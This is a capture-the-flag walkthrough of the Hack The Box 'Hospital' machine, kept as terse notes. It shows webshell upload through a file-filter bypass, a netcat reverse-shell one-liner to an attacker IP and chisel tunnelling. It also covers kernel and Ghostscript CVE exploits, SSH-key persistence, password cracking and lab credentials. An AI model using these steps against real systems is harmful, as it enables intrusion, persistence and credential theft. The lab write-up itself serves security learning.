

---
---

# HTB - Hospital

NMAP


Add hospital.htb to /etc/hosts

```bash
dirsearch -u <https://hospital.htb>

```


```bash
dirsearch -u <http://hospital.htb:8080>

```


- We need to bypass the file upload filter, as it only allows image files to be uploaded

- Uploading a .php file gives an error:


- Changing the extension to **.pht** - we seem to get success:


But the shell isn't interactive


<u>Using **.phar**:</u>


- Go to:
/uploads/image.phar


I used this webshell:

<https://github.com/incredibleindishell/Mannu-Shell/blob/master/mannu.php>

or this one:

<https://github.com/flozz/p0wny-shell/blob/master/shell.php>

- We can see it's a Linux webserver running


- We can see it's a Linux webserver running


Switched to p0wnyshell for better enumeration

<https://github.com/flozz/p0wny-shell/blob/master/shell.php>


MySQL creds in config.php:

**root : my\$qls3rv1c3!**


- It connects to the mysql but no output:


- Upload chisel to the webserver

- On Kali:
```bash
./chisel server -p 8888 --reverse

```
- On target:
```bash
./chisel client 10.10.14.31:8888 R:socks

```
- Now run mysql command through proxychains


**<u>Bcrypt passwords:</u>**

**Admin : 123456**

but it doesn't give us anymore access

**<u>Priv Esc -- CVE-2023-2640/CVE-2023-32629</u>**

- The kernel version is vulnerable:


<https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629>

<https://medium.com/@0xrave/ubuntu-gameover-lay-local-privilege-escalation-cve-2023-32629-and-cve-2023-2640-7830f9ef204a>


- Send the shell to Kali:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2\>&1\|nc 10.10.14.31 9000 \>/tmp/f

```
- Upload the exploit.sh to the webserver
```bash
chmod +x exploit.sh

```
- And run

- And we are root on the webserver:


**<u>Get SSH access and some persistence:</u>**
```bash
ssh-keygen -t rsa -b 4096
chmod 600 id_rsa
cat id_rsa.pub
echo "\<id_rsa.pub\>" \>\> authorized_keys

ssh root@hospital.htb -i id_rsa
```


```bash
hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```


**drwilliams : qwe123!@#**

```bash
crackmapexec smb hospital.htb -u drwilliams -p 'qwe123!@#'

```


We have Windows credentials

- Logging into the webmail server with the credentials:
<https://hospital.htb>


- As we can see from the email:


He wants a .eps file that will be processed by GhostScript

- There is a recent CVE for GhostScript:
<https://vsociety.medium.com/cve-2023-36664-command-injection-with-ghostscript-poc-exploit-97c1badce0af>

<https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection>

```bash
git clone <https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection>

cd CVE-2023-36664-Ghostscript-command-injection

python3 CVE_2023_36664_exploit.py --generate --payload '\<powershell base64 payload\>' --filename new_design --extension eps

```


- Now we need to reply to his email with the attachment:


- Set up a listener:


We are user **drbrown**

- After gaining access with the phishing email:
```bash
cat user.txt

```
- Plaintext credentials in Documents/ghostscript.bat:


**hospital\drbrown : chr!\$br0wn**

- RDP in:
```bash
xfreerdp /u:drbrown /p:'chr!\$br0wn' /cert:ignore /v:hospital.htb /dynamic-resolution +clipboard

```


- So basically, any .php file in the htdocs will be served up


- The index.php is for the https Roundmail site


- We have write access:


- We can test this with:




- Now we'll upload the same webshell as before:
<https://github.com/flozz/p0wny-shell/blob/master/shell.php>


- We are SYSTEM:


```bash
type root.txt

```